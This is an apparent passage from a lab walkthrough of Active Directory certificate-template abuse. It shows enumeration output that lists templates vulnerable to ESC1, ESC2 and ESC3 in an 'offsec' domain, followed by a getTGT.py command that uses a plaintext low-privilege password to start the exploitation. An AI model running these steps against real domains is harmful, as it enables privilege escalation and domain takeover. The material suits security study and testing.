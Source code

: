 ```plain

Name: SubCA
Schema Version: 1
Enroll Services: offsec-DC01PKI-CA
Vulnerabilities: ESC1 - SAN Impersonation, ESC2 - Any Purpose, ESC3.2 - Use Agent Certificate
msPKI-Certificate-Name-Flag: (0x1) ENROLLEE_SUPPLIES_SUBJECT
[...]

Name: UsersOffsecAD
Schema Version: 2
Enroll Services: offsec-DC01PKI-CA
Vulnerabilities: ESC1 - SAN Impersonation
msPKI-Certificate-Name-Flag: (0x1) ENROLLEE_SUPPLIES_SUBJECT
msPKI-Enrollment-Flag: (0x9) INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
msPKI-RA-Signature: 0
pKIExtendedKeyUsage: Client Authentication
msPKI-Certificate-Application-Policy: Client Authentication
SD Owner: S-1-5-21-497837788-612300594-3587273769-500 offsec\Administrator
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-497837788-612300594-3587273769-519 offsec\Enterprise Admins
      S-1-5-21-497837788-612300594-3587273769-512 offsec\Domain Admins
      S-1-5-21-497837788-612300594-3587273769-513 offsec\Domain Users
  Write Permissions
    Write Owner
      S-1-5-21-497837788-612300594-3587273769-519 offsec\Enterprise Admins
      S-1-5-21-497837788-612300594-3587273769-500 offsec\Administrator
      S-1-5-21-497837788-612300594-3587273769-512 offsec\Domain Admins
    Write DACL
      S-1-5-21-497837788-612300594-3587273769-519 offsec\Enterprise Admins
      S-1-5-21-497837788-612300594-3587273769-500 offsec\Administrator
      S-1-5-21-497837788-612300594-3587273769-512 offsec\Domain Admins
    Write Property
      S-1-5-21-497837788-612300594-3587273769-519 offsec\Enterprise Admins
      S-1-5-21-497837788-612300594-3587273769-500 offsec\Administrator
      S-1-5-21-497837788-612300594-3587273769-512 offsec\Domain Admins
      S-1-5-21-497837788-612300594-3587273769-513 offsec\Domain Users

15:30:21 in certi on  main took 5s
```

### Exploiting the configuration

### Getting TGT ticket

```plain
getTGT.py 'offsec.nl/johndo-lowpriv:Welkom1234'
```

Make the ticket available for the current session.
